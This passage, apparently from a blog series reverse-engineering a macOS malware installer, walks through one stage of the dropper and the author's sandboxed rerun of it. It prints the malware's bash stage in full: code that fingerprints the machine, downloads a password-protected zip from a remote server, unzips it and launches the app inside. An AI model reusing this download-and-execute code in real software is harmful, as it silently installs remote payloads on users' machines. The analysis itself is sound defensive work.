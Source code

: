     $ sw_vers -productVersion
    10.14.5
    $ uuidgen
    769F2AAE-47D3-4EF4-BB6E-64B6742F3662
    $ ioreg -rd1 ioreg -rd1 -c IOPlatformExpertDevice | grep -o '"IOPlatformUUID" = "\(.*\)"'
    XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX

Next comes the interesting part. Here we actually download and execute whatever the server gives us.

```bash
url="http://${APP_DOMAIN}/${APP_ROUTE}?mid=${machine_id}&s=${session_guid}&o=${os_version}&p=${ENC_PASS}"
tmp_path="$(mktemp /tmp/XXXXXXXXX)"
curl -f0L "${url}" >/dev/null 2>&1 >> ${tmp_path} 
app_dir="$(mktemp -d /tmp/XXXXXXXX)/" 
unzip -P "${unzip_password}" "${tmp_path}" -d "${app_dir}" > /dev/null 2>&1 
rm -f ${tmp_path} 
file_name="$(grep -m1 -v "*.app" <(ls -1 "${app_dir}"))" 
volume_name="$(echo -n "${PWD}" | sed -E -n 's@^(/Volumes/[^/]+)/.*@\1@p')" 
volume_name="${volume_name// /%20}" 
chmod +x "${app_dir}${file_name}/Contents/MacOS"/* 
open -a "${app_dir}${file_name}" --args "s" "${session_guid}" "${volume_name}"
```

You can see that it builds a request URL `url`, it uses `curl` to download something from that URL into a temporary folder, next it unzips the file with the password it has, it finds an app that is contained in it and eventually launches that app with some arguments. 

I ended up simply hardcoding some values for `os_version`, `session_guid` and `machine_id`, commenting out the lines after the unzip, and just running this stage again in the docker container. 

So, I ended up just hardcoding some values into the script, and running it in a secure Linux container. Just to be safe. 

Interestingly, every time I run the script, it downloads a different file.

    f47b360433f1f696c7d0edc0dcd274562d200baa36ff479b148eab5296684cbe  run1.zip
    149f43daef9c4ac9ee17ffa108b392aa86fb230e128c6612583d52f47ea91af7  run2.zip
    add0beb0535945ab85d3ffda97248975d8dff2ddb7560eefc19ee025f8f62b11  run3.zip

Are these all different malwares that it's launching? Doesn't seem like it. After unzipping them and comparing the unzipped files with diff, it's clear that they all contain the same files.

    $ diff -r Installer.app Installer2.app

It's most likely that the server generates these zip files on-demand and thus somewhere there are things with different different timestamps, which means they have a different hash sum despite containing the same files.

The timestamp on most of the files is June 10th, which is a bit more than a week ago at this point, so fairly recent.

Unlike the first `Installer.app` that we had, this one is not a bash script. But what does this `Installer.app` do? Check out the next post, where I will be reverse engineering the binary to find out what it does.
